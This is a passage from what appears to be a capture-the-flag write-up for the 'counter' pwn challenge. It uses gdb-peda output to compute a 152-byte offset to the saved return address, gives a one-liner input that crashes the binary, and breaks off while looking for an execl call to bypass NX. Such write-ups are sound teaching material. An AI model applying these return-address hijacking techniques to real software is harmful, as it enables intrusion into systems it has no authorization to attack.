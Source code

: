 Since we can increment any value from `rsp+0x00` to `rsp+0xff`, it suggests that we can change the return address and thus control `rip`.

As [this writeup](https://0xabe.io/ctf/exploit/2015/10/30/TUM-CTF-Teaser-2015-pwn-counter.html) describes, we can gdb's `i frame` command right before the `fscanf` call to print out information about the current stack frame, including the position of our saved `rip` on the stack:

```bash
gdb-peda$ i frame
Stack level 0, frame at 0x7fffffffe420:
 rip = 0x40074f; saved rip = 0x4005d9
 called by frame at 0x7fffffffe430
 Arglist at 0x7fffffffe378, args: 
 Locals at 0x7fffffffe378, Previous frame's sp is 0x7fffffffe420
 Saved registers:
  rbx at 0x7fffffffe408, rbp at 0x7fffffffe410, rip at 0x7fffffffe418
```

Then, we just calculate the distance between `rip` on the stack and `rsp` using `gdb`'s `distance` command:

```
gdb-peda$ distance $rsp 0x7fffffffe418
From 0x7fffffffe380 to 0x7fffffffe418: 152 bytes, 38 dwords
```

PS: You can also just calculate it by hand, by looking at any `sub rsp, XXX` or `push` instructions before the `fscanf` call:

![](./rip-offset-by-hand.png)

* Each `push` pushes 8 bytes (64 bit: `8` bytes, 32bit: `4` bytes) on the stack => 16 bytes offset to `rip`
* `sub rsp, 0x88` => `0x88` bytes == `136` bytes offset
* All in all `136`+`16`==`152` bytes offset from `rsp` to `rip`!

This means, we can change the `rip`, if we provide bytes in the range between `152` (`0x98`) to `152+8=160` (`0xa0`):

```bash
$ p -c 'print "\x98\x9c\xa0"*0x100' | ./counter 

Segmentation fault (core dumped)
```

Since NX is enabled (as seen in the `checksec` output), we have to find another way instead of providing shellcode on the stack.

Looking at the imported functions from earlier, we see an `execl` call and try to find it using these steps:
